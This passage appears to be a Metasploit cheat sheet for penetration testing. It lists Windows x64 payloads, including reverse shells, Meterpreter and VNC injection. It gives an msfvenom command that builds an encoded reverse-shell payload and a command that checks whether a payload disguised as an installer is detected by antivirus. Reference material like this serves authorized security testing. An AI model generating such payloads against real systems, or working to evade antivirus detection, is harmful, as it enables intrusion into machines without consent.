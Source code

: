 `windows/x64/loadlibrary`
Loads an arbitrary x64 library path

`windows/x64/messagebox`
Spawns a dialog via MessageBox using a customizable title, text & icon

`windows/x64/shell_reverse_tcp`
Normal shell, single payload, reverse TCP connection

`windows/x64/shell/reverse_tcp`
Normal shell, stager + stage, reverse TCP connection

`windows/x64/shell/bind_ipv6_tcp`
Normal shell, stager + stage, IPv6 Bind TCP stager

`windows/x64/meterpreter/$`
Meterpreter payload + varieties above

`windows/x64/powershell/$`
Interactive PowerShell sessions + varieties above

`windows/x64/vncinject/$`
VNC Server (Reflective Injection) + varieties above


## Encoders

#### Generating an msfvenom encoded payload
```Shell
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

#### MSF - Displaying exploit compatible encoders
```Shell
show encoders
```

#### Running a payload through VirusTotal to see if it will be detected by AV
```Shell
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```


## Databases

### Setting up the Database

#### PostgreSQL Status
```Shell
service postgresql status
```

#### Start PostgreSQL
```Shell
systemctl start postgresql
```
